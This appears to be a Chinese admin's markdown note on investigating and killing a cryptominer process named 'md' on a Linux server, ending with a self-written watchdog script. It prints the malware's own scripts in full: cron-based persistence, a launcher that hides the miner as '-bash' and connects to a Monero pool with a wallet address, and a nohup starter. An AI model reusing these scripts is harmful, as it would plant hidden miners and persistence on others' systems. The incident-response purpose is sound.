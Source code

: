 # 查杀挖矿机进程md

`[root@localhost]# top` 查看到md（占用cpu近100%）的PID 4444  
`[root@localhost]# cd /proc/4444`  
`[root@localhost]# ll`  
重点关注cmdline 和 exe,cwd 等
cwd 指向 /lib/modules/.z (这个目录里放着挖矿的程序)
exe指向 /lib/modules/.z/md (这个就是占用100%cpu的家伙)
`[root@localhost]# cat cmdline`  
这里看到如下字样，pool.minexmr.com 基本上跟挖矿有关了  
`-bash -acryptonight-os tratum+tcp://pool.minexmr.com:7777`
```
[root@localhost]# cd /lib/modules/.z/
[root@localhost .z]# ll
```
 ll结果如下，h32,h64,md,mdx都是二进制文件
 我们可以从a, run, x 三个文件里看到些端倪
```
-rw-r--r--. 1 root root       0 Nov 23 15:40 $
-rwxr-xr-x. 1 root root     332 Oct  5 03:07 a
-rw-r--r--. 1 root root       1 Nov 23 18:07 bash.pid
-rwxr-xr-x. 1 1001 1001   15125 Feb 21  2016 h32
-rwxr-xr-x. 1 1001 1001  838583 Feb 21  2016 h64
-rwxr-xr-x. 1 root root 2979640 Jun 24 04:19 md
-rwxr-xr-x. 1 root root  168896 Sep 27 18:58 mdx
-rwxr-xr-x. 1 root root     533 Nov 19 22:41 run
-rw-r--r--. 1 root root    4833 Nov 23 16:24 screenlog.0
-rwxr-xr-x. 1 root root      24 Oct  5 02:45 x
```
`[root@localhost .z]# cat a `
```
pwd > dir.dir
dir=$(cat dir.dir)
echo "* * * * * $dir/upd >/dev/null 2>&1" > cron.d
crontab cron.d
crontab -l | grep upd
echo "#!/bin/sh
if test -r $dir/bash.pid; then
pid=\$(cat $dir/bash.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > upd
chmod u+x upd
rm -rf ../dwk.tgz
rm -rf ../z.sh
```
 cron.d 和 upd文件都没有找到，使用locate 命令，也没有搜索到，  
 使用kill 4444 之后，停几个小时，md会重新执行（即使给.z文件夹改名也没用，删除也没有用，还是会启动）  
  怀疑存在父进程，或定时任务，但是使用crontab -l 查看没有定时任务（无语）  
`[root@localhost .z]# cat run`  
```
#!/bin/bash

proc=`nproc`
ARCH=`uname -m`
HIDE="-bash"

if [ "$ARCH" == "i686" ];       then
        ./h32 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
elif [ "$ARCH" == "x86_64" ];   then
        ./h64 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
fi
echo $! > bash.pid
```
[root@localhost .z]# cat x
```
nohup ./a >>/dev/null &
```

 无奈只能曲线救国，写了一个守护进程，一旦看到md运行就kill掉它  
 其中ps -ef 结果的第三列是父进程，为了追综始作俑者。  
 一般命令行运行的程序好像父进程是1？  
```
#!/bin/sh
proc_name="^sh md$" 
file_name="/data2/lzc/watchMD.log"

echo `date` = NUM = PID > $file_name
while true
do
 num=`pgrep -x "$proc_name" | wc -l`
 if [ 0 -lt $num ]
 then
    pid=`pgrep -x "$proc_name"`
    ps -ef | grep $pid | grep -v grep >> $file_name
    echo == >> $file_name
    par=(`ps -ef | grep $pid | grep -v grep | cut -f3`)
    ps -ef | grep ${par[0]} | grep -v grep >> $file_name
    echo ==== >> $file_name
    kill $pid
    echo `date` =  $num  = $pid >> $file_name
 fi
 sleep 2
done  
```
